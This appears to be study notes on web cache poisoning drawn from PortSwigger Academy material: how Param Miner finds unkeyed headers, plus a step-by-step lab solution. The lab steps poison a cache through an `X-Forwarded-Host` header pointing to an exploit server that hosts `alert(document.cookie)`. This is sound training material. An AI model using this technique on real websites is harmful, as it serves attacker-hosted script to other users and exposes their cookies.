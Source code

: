 https://portswigger.net/web-security/web-cache-poisoning#what-is-web-cache-poisoning
https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws
https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws

#### Param Miner
You can automate the process of identifying unkeyed inputs by adding the [Param Miner](https://portswigger.net/bappstore/17d2949a985c4b7ca092728dba871943) extension to Burp from the BApp store. To use Param Miner, you simply right-click on a request that you want to investigate and click "Guess headers". Param Miner then runs in the background, sending requests containing different inputs from its extensive, built-in list of headers. If a request containing one of its injected inputs has an effect on the response, Param Miner logs this in Burp, either in the "Issues" pane if you are using Burp Suite Professional, or in the "Output" tab of the extension ("Extensions" > "Installed" > "Param Miner" > "Output") if you are using Burp Suite Community Edition.

For example, in the following screenshot, Param Miner found an unkeyed header `X-Forwarded-Host` on the home page of the website:

![](Pasted%20image%2020241103040921.png)

**Caution:** When testing for unkeyed inputs on a live website, there is a risk of inadvertently causing the cache to serve your generated responses to real users. Therefore, it is important to make sure that your requests all have a unique cache key so that they will only be served to you. To do this, you can manually add a cache buster (such as a unique parameter) to the request line each time you make a request. Alternatively, if you are using Param Miner, there are options for automatically adding a cache buster to every request.


# 1.  Web cache poisoning with an unkeyed header
This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

1. In Burp, go to "Proxy" > "HTTP history" and study the requests and responses that you generated. Find the `GET` request for the home page and send it to Burp Repeater.
2. Add a cache-buster query parameter, such as `?cb=1234`.
3. Add the `X-Forwarded-Host` header with an arbitrary hostname, such as `example.com`, and send the request.
4. Observe that the `X-Forwarded-Host` header has been used to dynamically generate an absolute URL for importing a JavaScript file stored at `/resources/js/tracking.js`.
5. Replay the request and observe that the response contains the header `X-Cache: hit`. This tells us that the response came from the cache.
6. Go to the exploit server and change the file name to match the path used by the vulnerable response:
    `/resources/js/tracking.js`
7. In the body, enter the payload `alert(document.cookie)` and store the exploit.
8. Open the `GET` request for the home page in Burp Repeater and remove the cache buster.
9. Add the following header, remembering to enter your own exploit server ID:
    `X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net`
10. Send your malicious request. Keep replaying the request until you see your exploit server URL being reflected in the response and `X-Cache: hit` in the headers.
11. To simulate the victim, load the poisoned URL in the browser and make sure that the `alert()` is triggered. Note that you have to perform this test before the cache expires. The cache on this lab expires every 30 seconds.
12. If the lab is still not solved, the victim did not access the page while the cache was poisoned. Keep sending the request every few seconds to re-poison the cache until the victim is affected and the lab is solved.

Analysis:

